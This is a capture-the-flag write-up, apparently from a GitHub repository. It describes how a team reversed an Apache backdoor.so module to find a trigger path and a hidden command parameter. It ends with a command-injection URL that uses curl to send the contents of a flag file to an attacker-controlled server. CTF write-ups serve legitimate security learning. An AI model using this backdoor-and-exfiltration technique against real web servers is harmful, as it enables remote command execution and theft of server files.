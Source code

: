 Hello guys ,

So i will explain my team solution for this task 

It was really amazing task because its reverse + web so it need lot of knowledge to solve it

So first we check the task !

![capture d ecran 2017-10-19 a 11 23 25 am](https://user-images.githubusercontent.com/7364615/31766621-fdbd0a96-b4bf-11e7-9d15-05c19c028ec8.png)

Next we have backdoor.so library used with the apache server 

If we need to solve this should first understand the backdoor.so how it works


So it check first for GET\x00ndex.html 

![capture d ecran 2017-10-19 a 11 30 37 am](https://user-images.githubusercontent.com/7364615/31766872-f6d81eea-b4c0-11e7-86ee-08834d0567d4.png)

![capture d ecran 2017-10-19 a 11 31 12 am](https://user-images.githubusercontent.com/7364615/31766893-09930b80-b4c1-11e7-8ee6-dd843d21a15e.png)

OK so we need to send  https://indianer.flatearth.fluxfingers.net//x00ndex.html as first to make it all work 

then there is system function that get argument from url , but its not clear what name is this arg

so we make our prog to get the arg name 

![capture d ecran 2017-10-19 a 11 33 34 am](https://user-images.githubusercontent.com/7364615/31766979-60bdb798-b4c1-11e7-912d-2ab3d29b23aa.png)

and it was "dpdpdpamamamamajvjvjvjvgsgsgsgsgpdp" So this is the second part 

https://indianer.flatearth.fluxfingers.net/x00ndex.html?dpdpdpamamamamajvjvjvjvgsgsgsgsgpdp=

what Next?

first what we tried to do it to understand where the flag will be shown

We tried first simple check like https://indianer.flatearth.fluxfingers.net/x00ndex.html_dpdpdpamamamamajvjvjvjvgsgsgsgsgpdp=ls

but for sure no output there :(

After some check we get that the '_' is replaced with ' '

So no need space here 

![capture d ecran 2017-10-19 a 11 37 02 am](https://user-images.githubusercontent.com/7364615/31767126-da3ef960-b4c1-11e7-91e3-776e15b18598.png)

Also flag will not shown here in the web part 

So if we make the flag redirected  somewhere it maybe will work 

So curl is the best solution , but we figure this out when the ctf already end :( and we didnt get any points for this task

Anyway it was Cool task to improve our skills 

Ok lets continue !

So we need curl? ok so we will send the flag to our server using curl 

So our last solution was to make this request and its work :D 

https://indianer.flatearth.fluxfingers.net/x00ndex.html?dpdpdpamamamamajvjvjvjvgsgsgsgsgpdp=curl_serverip/`cat_/var/www/flag.txt`


![capture d ecran 2017-10-19 a 11 15 22 am](https://user-images.githubusercontent.com/7364615/31767276-57b35d0a-b4c2-11e7-8f09-1a162d4cc949.png)

No points but we did it :D 


Thanks 

